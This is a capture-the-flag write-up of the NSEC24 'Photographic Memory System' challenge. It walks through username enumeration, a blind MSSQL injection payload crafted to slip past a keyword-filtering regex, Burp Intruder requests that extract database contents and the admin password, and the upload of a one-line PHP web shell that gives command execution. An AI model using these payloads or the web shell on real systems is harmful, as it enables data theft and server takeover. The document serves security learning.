








# NSEC24 : Photographic Memory System

## Challenge

During the [NSEC24 CTF](https://nsec.io/competition/) I had the opportunity to solve the following challenge with the help of my colleagues [Ashiahanim Ayassor](https://www.linkedin.com/in/ash-ay/) and [Charl-Alexandre Le Brun](https://www.linkedin.com/in/charl-alexandre-le-brun/). I will detail all the steps of this challenge in this blog post.

The following information was given during the CTF:



The first step was to follow the given URL <http://photographic-memory.ctf>:



## Username enumeration

Our first shot was to test the authentication using default credentials like `admin:admin` which gave us the following message:



Using another couple of credentials `root:admin` gave us another message:



At that point it was clear that the application was vulnerable to username enumeration allowing us to know that the user `admin` exists in the application.

## SQL injections

### Regex

After trying multiple password with the `admin` username, we tried various SQL injection on the `username` field leading us to get the following error message:



This error message let us know that there are restrictions on the username field that will limit us from performing SQL injections.

### sqlmap

We were curious to see if `sqlmap` could allow us to grab some information despite the regex limitation so we ran it against the web portal and we got the following results:

```sql
$ sqlmap -r req --level 5 --risk 3 --all
[...]
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 6339=6339 AND 'IvSQ'='IvSQ&passwd=admin
---
[...]
[14:06:04] [WARNING] reflective value(s) found and filtering out
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: Microsoft SQL Server 2022
[...]
[14:06:05] [INFO] fetching server hostname
[14:06:05] [INFO] retrieved: ctn-mbergeron-photographic-memory
hostname: 'ctn-mbergeron-photographic-memory'
[14:06:14] [INFO] testing if current user is DBA
current user is DBA: False
[...]
[14:06:14] [CRITICAL] unable to retrieve the number of database users
```

The tool was able to find some details but nothing regarding the databases, the tables or the stored data.

### Bypass regex

Let's dig inside this regex to understand how to bypass it:

```sql
(alter|create|delete|drop|exec|execute|insert|merge|select|update|union|truncate)([^a-z\]\'%])|--|]]|\/\*|\*\/
```

* The first group of regex is looking for the following key words : `alter|create|delete|drop|exec|execute|insert|merge|select|update|union|truncate`
* The second group of regex is looking for character not present in the list `a-z` - `]` - `'` - `%`
* If the payload contains `--` or `]]` we get blocked
* If the payload contains `*/` or `/*` we are also blocked

Details using [Regex101](https://regex101.com/):



After the analysis of the regex we have been able to find an SQL request that would allow us to bypass the regex limitation while dumping the information regarding databases, the tables and stored data:

```sql
username=admin' AND SUBSTRING((CAST((SELECT'm'%2name FROM master..sysdatabases ORDER BY name OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),1,1)='m' AND 'uNDi'='uNDi&passwd=admin
```

To help us building our final payload we used [codapi](https://codapi.org/mssql/) which allow us to check if our request was correct at a syntax level.

Here is some explanation regarding our SQL request:

* `SELECT'm'` : This syntax is authorized by MSSQL and allows us to use the `SELECT` keyword. This will add an arbitrary `m` letter to every result.  
  * You are free to use another letter obviously
* `%2` : You have to encode the `+` to avoid errors
* `SUBSTRING((CAST((SELECT'm'%2name FROM master..sysdatabases ORDER BY name OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),1,1)='m'` : This part is checking if the first letter of the first database is `m`
* `AND 'uNDi'='uNDi` : This is part of the initial SQL injection identified by `sqlmap`

To confirm that this request is working we did the following `POST` requests:

On this case we tested if the first letter was `m`, which is always true since we add an arbitrary `m` at the beginning:

```sql
username=admin' AND SUBSTRING((CAST((SELECT'm'+name FROM master..sysdatabases ORDER BY name OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),1,1)='m' AND 'uNDi'='uNDi&passwd=admin
```

We got the following answer, letting us that the username (`admin`) is the good one, confirming that our request worked:

```html
<div class="alert">Invalid credentials.</div><br>  <div class="form-input">
```

Here, we tested if the first letter was `a`, which is false:

```sql
username=admin' AND SUBSTRING((CAST((SELECT'm'+name FROM master..sysdatabases ORDER BY name OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),1,1)='a' AND 'uNDi'='uNDi&passwd=admin
```

We got the following answer, letting us now that the username (`admin`) is not the good one, confirming that our request worked:

```html
<div class="alert">Invalid username.</div><br>  <div class="form-input">
```

### Let's automate

Now that we are able to request the first letter of the database bypassing the regex, we choose to automate the process using the `Burp Intruder`.

#### Databases

The first step is to find the name of the databases. At this point, we had to iterate through two points, the index letter we are trying to find, represented by `§1§`, and the letter we are testing, represented by `§m§`:

```powershell
POST / HTTP/1.1
Host: photographic-memory.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 191
Origin: http://photographic-memory.ctf
Connection: close
Referer: http://photographic-memory.ctf/
Cookie: PHPSESSID=k2ip0nk80scvaubpv8u7a54bjg
Upgrade-Insecure-Requests: 1

username=admin' AND SUBSTRING((CAST((SELECT'm'%2bname FROM master..sysdatabases ORDER BY name OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),§1§,1)='§m§' AND 'uNDi'='uNDi&passwd=admin
```

For OFFSET at `0` we got the following results:

```powershell
| 0   |   |   | 200 | false | false | 1782 | 1 |  |
|-----|---|---|-----|-------|-------|------|---|--|
| 601 | 1 | m | 200 | false | false | 1782 | 1 |  |
| 602 | 2 | m | 200 | false | false | 1782 | 1 |  |
| 3   | 3 | a | 200 | false | false | 1782 | 1 |  |
| 904 | 4 | s | 200 | false | false | 1782 | 1 |  |
| 955 | 5 | t | 200 | false | false | 1782 | 1 |  |
| 206 | 6 | e | 200 | false | false | 1782 | 1 |  |
| 857 | 7 | r | 200 | false | false | 1782 | 1 |  |
```

Which gave us the name `mmaster` where we can remove the first arbitrary `m` we add. After running four (4) times the intruder, we got the following databases names:

```md
0 : master
1 : model
2 : msdb
3 : photographic_memory
4 : tempdb
```

> **Note** : I just realized that we could also add an iterator `§` on the `OFFSET` to run the intruder only once ...

#### Tables

Now that we found the databases, we have to run the same kind of exercise to identify the tables. We choose to iterate on the `photographic_memory` which is probably the database of the current application.

To do that we use almost the same request but we iterate on `photographic_memory..sysobjects` instead of `master..sysdatabases`:

```powershell
POST / HTTP/1.1
Host: photographic-memory.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 211
Origin: http://photographic-memory.ctf
Connection: close
Referer: http://photographic-memory.ctf/
Cookie: PHPSESSID=k2ip0nk80scvaubpv8u7a54bjg
Upgrade-Insecure-Requests: 1

username=admin' AND SUBSTRING((CAST((SELECT'm'%2bname FROM photographic_memory..sysobjects WHERE xtype = 'U' ORDER BY name OFFSET 1 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),§1§,1)='§m§' AND 'uNDi'='uNDi&passwd=admin
```

After running two (2) times the intruder we got the following databases names:

```md
0 : file_logs
1 : users
```

#### Data

Now that we found the table, we have to get the data. We guessed that there would be a `username` column:

```sql
username=admin' AND SUBSTRING((CAST((SELECT'm'%2busername FROM users ORDER BY username OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),1,1)='m' AND 'uNDi'='uNDi&passwd=admin
```

Which confirmed that there is only one user named `admin`:

```md
0 : admin
```

Then we tried multiple other columns name like `password` - `pwd` and finally `passwd` to find the password of the `admin` user:

```powershell
POST / HTTP/1.1
Host: photographic-memory.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 211
Origin: http://photographic-memory.ctf
Connection: close
Referer: http://photographic-memory.ctf/
Cookie: PHPSESSID=k2ip0nk80scvaubpv8u7a54bjg
Upgrade-Insecure-Requests: 1

username=admin' AND SUBSTRING((CAST((SELECT'm'%2bpasswd FROM users ORDER BY username OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),§1§,1)='§m§' AND 'uNDi'='uNDi&passwd=admin
```

Allowing us to find the first flag:

```md
| 4    | 4  | a | 200 | false | false | 1773 | 1 |  |
|------|----|---|-----|-------|-------|------|---|--|
| 10   | 10 | a | 200 | false | false | 1774 | 1 |  |
| 125  | 35 | b | 200 | false | false | 1774 | 1 |  |
| 120  | 30 | b | 200 | false | false | 1774 | 1 |  |
| 207  | 27 | c | 200 | false | false | 1774 | 1 |  |
| 278  | 8  | d | 200 | false | false | 1773 | 1 |  |
| 282  | 12 | d | 200 | false | false | 1774 | 1 |  |
| 299  | 29 | d | 200 | false | false | 1774 | 1 |  |
| 289  | 19 | d | 200 | false | false | 1774 | 1 |  |
| 306  | 36 | d | 200 | false | false | 1774 | 1 |  |
| 369  | 9  | e | 200 | false | false | 1773 | 1 |  |
| 376  | 16 | e | 200 | false | false | 1774 | 1 |  |
| 452  | 2  | f | 200 | false | false | 1773 | 1 |  |
| 472  | 22 | f | 200 | false | false | 1774 | 1 |  |
| 545  | 5  | g | 200 | false | false | 1773 | 1 |  |
| 993  | 3  | l | 200 | false | false | 1773 | 1 |  |
| 1081 | 1  | m | 200 | false | false | 1773 | 1 |  |
| 2363 | 23 | 0 | 200 | false | false | 1774 | 1 |  |
| 2454 | 24 | 1 | 200 | false | false | 1774 | 1 |  |
| 2443 | 13 | 1 | 200 | false | false | 1774 | 1 |  |
| 2464 | 34 | 1 | 200 | false | false | 1774 | 1 |  |
| 2535 | 15 | 2 | 200 | false | false | 1774 | 1 |  |
| 2540 | 20 | 2 | 200 | false | false | 1774 | 1 |  |
| 2548 | 28 | 2 | 200 | false | false | 1774 | 1 |  |
| 2627 | 17 | 3 | 200 | false | false | 1774 | 1 |  |
| 2631 | 21 | 3 | 200 | false | false | 1774 | 1 |  |
| 2801 | 11 | 5 | 200 | false | false | 1774 | 1 |  |
| 2827 | 37 | 5 | 200 | false | false | 1774 | 1 |  |
| 2887 | 7  | 6 | 200 | false | false | 1773 | 1 |  |
| 2894 | 14 | 6 | 200 | false | false | 1774 | 1 |  |
| 2898 | 18 | 6 | 200 | false | false | 1774 | 1 |  |
| 2911 | 31 | 6 | 200 | false | false | 1774 | 1 |  |
| 2918 | 38 | 6 | 200 | false | false | 1774 | 1 |  |
| 2996 | 26 | 7 | 200 | false | false | 1774 | 1 |  |
| 3003 | 33 | 7 | 200 | false | false | 1774 | 1 |  |
| 3182 | 32 | 9 | 200 | false | false | 1774 | 1 |  |
| 3175 | 25 | 9 | 200 | false | false | 1774 | 1 |  |
| 3336 | 6  | - | 200 | false | false | 1773 | 1 |  |
```

Following reorganization we got `flag-6dea5d162e36d23f0197c2db6971bd56`.

## Authentication

Now that we have the first flag we tried to use it as a password since it was stored in the `passwd` field of the database.

The first shot gave us an error then we realized that we had to put it in capital letters to authenticate as `admin`:



## File upload

Once authenticated an upload feature is available. If you try to submit the form without any file, you get the following message:



## Remote Code Execution

We decided to upload directly a [very tiny](https://www.pentestpartners.com/security-blog/the-tiniest-php-system-shell-ever/) `PHP` reverse shell:

```powershell
POST /dashboard.php HTTP/1.1
Host: photographic-memory.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------62884936718515663351035206868
Content-Length: 250
Origin: http://photographic-memory.ctf
Connection: close
Referer: http://photographic-memory.ctf/dashboard.php
Cookie: PHPSESSID=k2ip0nk80scvaubpv8u7a54bjg
Upgrade-Insecure-Requests: 1

-----------------------------62884936718515663351035206868
Content-Disposition: form-data; name="photo_memory"; filename="shell.php"
Content-Type: application/x-php

<?=`$_GET[1]`?>

-----------------------------62884936718515663351035206868--
```

Giving us remote code execution on the server <http://photographic-memory.ctf/photo-memory-uploaded/admin/shell.php?1=id>:

```powershell
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

After a very quick recon we identified that there was a `flag` file at the root (`/`) of the file system:

```powershell
GET /photo-memory-uploaded/admin/shell.php?1=cat+/flag HTTP/1.1
Host: photographic-memory.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=k2ip0nk80scvaubpv8u7a54bjg
Upgrade-Insecure-Requests: 1


HTTP/1.1 200 OK
Date: Sun, 19 May 2024 17:06:21 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 44
Connection: close
Content-Type: text/html; charset=UTF-8

FLAG-5e2338188e4ab1850dd5bf94c32c33c5 (2/2)
```
